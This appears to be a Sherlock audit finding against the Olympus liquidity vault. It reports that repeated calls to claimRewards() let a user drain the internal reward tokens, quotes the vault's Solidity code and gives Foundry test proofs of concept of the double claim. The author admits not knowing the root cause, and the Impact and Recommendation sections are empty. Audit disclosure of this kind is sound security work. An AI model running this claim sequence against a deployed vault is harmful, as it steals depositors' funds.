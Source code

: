 Ruhum

high

# User can claim multiple times

## Summary
The user is able to claim multiple times allowing them to drain all of the vault's internal reward tokens.

## Vulnerability Detail
I couldn't figure out what the issue is. Initially, I suspected that the issue is that in `claimRewards()`, the `lastRewardTime` value is not updated for internal reward tokens.

In [`_updateInternalRewardState()`](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L488-L494) the reward tokens are distributed to each shareholder by increasing `accumulatedRewardsPerShare`. 
```sol
    function _updateInternalRewardState(uint256 id_, uint256 amountAccumulated_) internal {
        // This correctly uses 1e18 because the LP tokens of all major DEXs have 18 decimals
        InternalRewardToken storage rewardToken = internalRewardTokens[id_];
        if (totalLP != 0)
            rewardToken.accumulatedRewardsPerShare += (amountAccumulated_ * 1e18) / totalLP;
        rewardToken.lastRewardTime = block.timestamp;
    }
```
It also updates `lastRewardTime` so that the next time rewards are calculated, already distributed ones are ignored in [`_accumulateInternalRewards()`](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#LL463-L484C6)

```sol
    function _accumulateInternalRewards() internal view returns (uint256[] memory) {
        uint256 numInternalRewardTokens = internalRewardTokens.length;
        uint256[] memory accumulatedInternalRewards = new uint256[](numInternalRewardTokens);

        for (uint256 i; i < numInternalRewardTokens; ) {
            InternalRewardToken memory rewardToken = internalRewardTokens[i];

            uint256 totalRewards;
            if (totalLP > 0) {
                uint256 timeDiff = block.timestamp - rewardToken.lastRewardTime;
                totalRewards = (timeDiff * rewardToken.rewardsPerSecond);
            }

            accumulatedInternalRewards[i] = totalRewards;

            unchecked {
                ++i;
            }
        }

        return accumulatedInternalRewards;
    }
```

But, when the user calls [`claimRewards()`](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#LL288-L310C6), `_updateInternalRewardState()` is never executed: 

```sol
    function claimRewards() external onlyWhileActive nonReentrant {
        uint256 numInternalRewardTokens = internalRewardTokens.length;
        uint256 numExternalRewardTokens = externalRewardTokens.length;

        uint256[] memory accumulatedRewards = _accumulateExternalRewards();

        for (uint256 i; i < numInternalRewardTokens; ) {
            _claimInternalRewards(i);

            unchecked {
                ++i;
            }
        }

        for (uint256 i; i < numExternalRewardTokens; ) {
            _updateExternalRewardState(i, accumulatedRewards[i]);
            _claimExternalRewards(i);

            unchecked {
                ++i;
            }
        }
    }
```

Instead, it only calls [`_claimInternalRewards()`](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#LL623-L634C6) which in turn calls [`internalRewardsForToken`](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#LL354-L372C6) to get the number of tokens to claim:

```sol
    function _claimInternalRewards(uint256 id_) internal {
        address rewardToken = internalRewardTokens[id_].token;
        uint256 reward = internalRewardsForToken(id_, msg.sender);
        uint256 fee = (reward * FEE) / PRECISION;

        userRewardDebts[msg.sender][rewardToken] += reward;
        accumulatedFees[rewardToken] += fee;

        if (reward > 0) ERC20(rewardToken).safeTransfer(msg.sender, reward - fee);

        emit RewardsClaimed(msg.sender, rewardToken, reward - fee);
    }

    function internalRewardsForToken(uint256 id_, address user_) public view returns (uint256) {
        InternalRewardToken memory rewardToken = internalRewardTokens[id_];
        uint256 lastRewardTime = rewardToken.lastRewardTime;
        uint256 accumulatedRewardsPerShare = rewardToken.accumulatedRewardsPerShare;

        if (block.timestamp > lastRewardTime && totalLP != 0) {
            uint256 timeDiff = block.timestamp - lastRewardTime;
            uint256 totalRewards = timeDiff * rewardToken.rewardsPerSecond;

            // This correctly uses 1e18 because the LP tokens of all major DEXs have 18 decimals
            accumulatedRewardsPerShare += (totalRewards * 1e18) / totalLP;
        }

        // This correctly uses 1e18 because the LP tokens of all major DEXs have 18 decimals
        uint256 totalAccumulatedRewards = (lpPositions[user_] * accumulatedRewardsPerShare) -
            userRewardDebts[user_][rewardToken.token];

        return (cachedUserRewards[user_][rewardToken.token] + totalAccumulatedRewards) / 1e18;
    }
```

But, after the first claim, `userShares * rewardsPerShare` should be equal to `userRewardsDebts`. The timestamp wasn't increased. So the total amount of rewards didn't increase. That would mean that on the 2nd claim the user should get 0 tokens. But that's not the case. In the test cases below I log the relevant values to make sure that nothing weird is happening.

## Impact

## Code Snippet
Here's a test for WstthLiquidityVaultMock.t.sol and WstethLiquidityVaultFork.t.sol showcasing the issue:

```sol
    // WstthLiquidityVaultMock.t.sol
    function testIssue() public {
        vm.prank(alice);
        liquidityVault.deposit(1e18, 0);
        vm.warp(block.timestamp + 10); // Increase time by 10 seconds
        assertEq(liquidityVault.internalRewardsForToken(0, alice), 10000000000000000000);
        assertEq(liquidityVault.getExternalRewardTokens().length, 0);
        console2.log("block timestamp before first claim: ", block.timestamp);
        vm.prank(alice);
        liquidityVault.claimRewards();
        console2.log("cached user reward after first claim: ", liquidityVault.cachedUserRewards(alice, address(reward)));
        console2.log("user reward debts after first claim: ", liquidityVault.userRewardDebts(alice, address(reward)));

        // @audit without increasing the timestamp, we can claim a second time to earn more reward tokens
        console2.log("block timestamp before second claim: ", block.timestamp);
        // assertEq(liquidityVault.internalRewardsForToken(0, alice), 0);
        vm.prank(alice);
        liquidityVault.claimRewards();
        console2.log(
            "cached user rewards after second claim: ", liquidityVault.cachedUserRewards(alice, address(reward))
        );
        console2.log("user reward debts after second claim: ", liquidityVault.userRewardDebts(alice, address(reward)));
        assertGt(reward.balanceOf(alice), 10000000000000000000);
    }

    // WstethLiquidityVaultFork.t.sol
    function testIssue() public {
        vm.prank(bob);
        liquidityVault.deposit(1e18, 0);
        vm.warp(block.timestamp + 10); // Increase time by 10 seconds
        assertGt(liquidityVault.internalRewardsForToken(0, bob), 0);
        console2.log(block.timestamp);
        vm.prank(bob);
        liquidityVault.claimRewards();
        console2.log(liquidityVault.cachedUserRewards(bob, address(ldo)));
        console2.log(liquidityVault.userRewardDebts(bob, address(ldo)));
        uint256 balanceAfterFirstClaim = ldo.balanceOf(bob);
        console2.log(block.timestamp);
        vm.prank(bob);
        liquidityVault.claimRewards();
        console2.log(liquidityVault.cachedUserRewards(bob, address(ldo)));
        console2.log(liquidityVault.userRewardDebts(bob, address(ldo)));
        assertGt(ldo.balanceOf(bob), balanceAfterFirstClaim);
    }

```

## Tool used

Manual Review

## Recommendation

